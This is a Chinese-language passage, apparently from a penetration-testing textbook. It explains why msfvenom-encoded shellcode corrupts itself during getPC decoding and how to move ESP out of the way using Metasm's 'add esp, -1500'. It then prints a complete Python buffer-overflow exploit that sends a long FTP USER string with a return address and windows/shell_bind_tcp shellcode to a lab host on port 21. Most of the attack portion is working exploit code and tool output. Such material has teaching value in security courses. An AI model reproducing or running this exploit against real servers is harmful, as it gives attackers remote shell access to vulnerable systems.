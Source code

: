 Msfvenom 生成的编码 shellcode 在执行之前需要先解码，在解码过程中，它需要使用一个名为 getPC 的例程来找到自己在内存中的位置。查找当前内存位置的常用技术包括使用`FSTENV`指令，它将一个结构写入栈中，覆盖栈中的内容——在我们的情况下，部分 shellcode 就被覆盖了。我们需要做的就是将 ESP 从 shellcode 中移开，以便 getPC 有足够的空间执行，而不会破坏我们的 shellcode。（一般来说，问题是如果 EIP 和 ESP 的值太接近，shellcode 往往会自我破坏，无论是在解码过程中还是执行过程中。）这就是我们在上一次运行中崩溃的原因。

我们可以使用 Metasm 工具将简单的汇编指令转换为可以插入漏洞利用中的 shellcode。我们需要将 ESP 从内存中的 shellcode 位置移开。我们可以使用汇编指令`ADD`来完成此操作。其语法为`ADD` *`destination, amount`*。由于我们的栈使用较低的内存地址，因此我们从 ESP 中减去 1,500 字节。这个字节数应该足够大，以避免破坏；1,500 字节通常是一个安全的选择。

更改目录到*/usr/share/metasploit-framework/tools*并启动*metasm_shell.rb*，如示例 17-8 所示。

示例 17-8. 使用 Metasm 生成 shellcode

```
root@kali:~# **cd /usr/share/metasploit-framework/tools/**
root@kali:/usr/share/metasploit-framework/tools# **./metasm_shell.rb**
type "exit" or "quit" to quit
use ";" or "\n" for newline
metasm > **sub esp, 1500**❶
"\x81\xec\xdc\x05\x00\x00"
metasm > **add esp, -1500**❷
"\x81\xc4\x24\xfa\xff\xff"
```

如果我们尝试**`sub esp, 1500`** ❶，生成的 shellcode 会包含 null 字节，正如之前讨论的，null 字节是需要避免的坏字符，因为 FTP 规范要求避免使用它。相反，在`metasm`提示符中输入**`add esp, -1500`** ❷（一个逻辑等价操作）。

现在将生成的 shellcode 添加到漏洞利用中，放置在*windows/shell_bind_tcp* shellcode 之前，如示例 17-9 所示。

示例 17-9. 将 ESP 移开后的漏洞利用

```
#!/usr/bin/python
import socket
shellcode = ("\xda\xd4\xd9\x74\x24\xf4\xba\xa6\x39\x94\xcc\x5e\x2b\xc9" +
"\xb1\x56\x83\xee\xfc\x31\x56\x14\x03\x56\xb2\xdb\x61\x30" +
"\x52\x92\x8a\xc9\xa2\xc5\x03\x2c\x93\xd7\x70\x24\x81\xe7" +
"\xf3\x68\x29\x83\x56\x99\xba\xe1\x7e\xae\x0b\x4f\x59\x81" +
"\x8c\x61\x65\x4d\x4e\xe3\x19\x8c\x82\xc3\x20\x5f\xd7\x02" +
"\x64\x82\x17\x56\x3d\xc8\x85\x47\x4a\x8c\x15\x69\x9c\x9a" +
"\x25\x11\x99\x5d\xd1\xab\xa0\x8d\x49\xa7\xeb\x35\xe2\xef" +
"\xcb\x44\x27\xec\x30\x0e\x4c\xc7\xc3\x91\x84\x19\x2b\xa0" +
"\xe8\xf6\x12\x0c\xe5\x07\x52\xab\x15\x72\xa8\xcf\xa8\x85" +
"\x6b\xad\x76\x03\x6e\x15\xfd\xb3\x4a\xa7\xd2\x22\x18\xab" +
"\x9f\x21\x46\xa8\x1e\xe5\xfc\xd4\xab\x08\xd3\x5c\xef\x2e" +
"\xf7\x05\xb4\x4f\xae\xe3\x1b\x6f\xb0\x4c\xc4\xd5\xba\x7f" +
"\x11\x6f\xe1\x17\xd6\x42\x1a\xe8\x70\xd4\x69\xda\xdf\x4e" +
"\xe6\x56\xa8\x48\xf1\x99\x83\x2d\x6d\x64\x2b\x4e\xa7\xa3" +
"\x7f\x1e\xdf\x02\xff\xf5\x1f\xaa\x2a\x59\x70\x04\x84\x1a" +
"\x20\xe4\x74\xf3\x2a\xeb\xab\xe3\x54\x21\xda\x23\x9b\x11" +
"\x8f\xc3\xde\xa5\x3e\x48\x56\x43\x2a\x60\x3e\xdb\xc2\x42" +
"\x65\xd4\x75\xbc\x4f\x48\x2e\x2a\xc7\x86\xe8\x55\xd8\x8c" +
"\x5b\xf9\x70\x47\x2f\x11\x45\x76\x30\x3c\xed\xf1\x09\xd7" +
"\x67\x6c\xd8\x49\x77\xa5\x8a\xea\xea\x22\x4a\x64\x17\xfd" +
"\x1d\x21\xe9\xf4\xcb\xdf\x50\xaf\xe9\x1d\x04\x88\xa9\xf9" +
"\xf5\x17\x30\x8f\x42\x3c\x22\x49\x4a\x78\x16\x05\x1d\xd6" +
"\xc0\xe3\xf7\x98\xba\xbd\xa4\x72\x2a\x3b\x87\x44\x2c\x44" +
"\xc2\x32\xd0\xf5\xbb\x02\xef\x3a\x2c\x83\x88\x26\xcc\x6c" +
"\x43\xe3\xfc\x26\xc9\x42\x95\xee\x98\xd6\xf8\x10\x77\x14" +
"\x05\x93\x7d\xe5\xf2\x8b\xf4\xe0\xbf\x0b\xe5\x98\xd0\xf9" +
"\x09\x0e\xd0\x2b")
buffer = "A" * 485 + "\x59\x54\xc3\x77" + "C" * 4 + "\x81\xc4\x24\xfa\xff\xff" + shellcode
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
```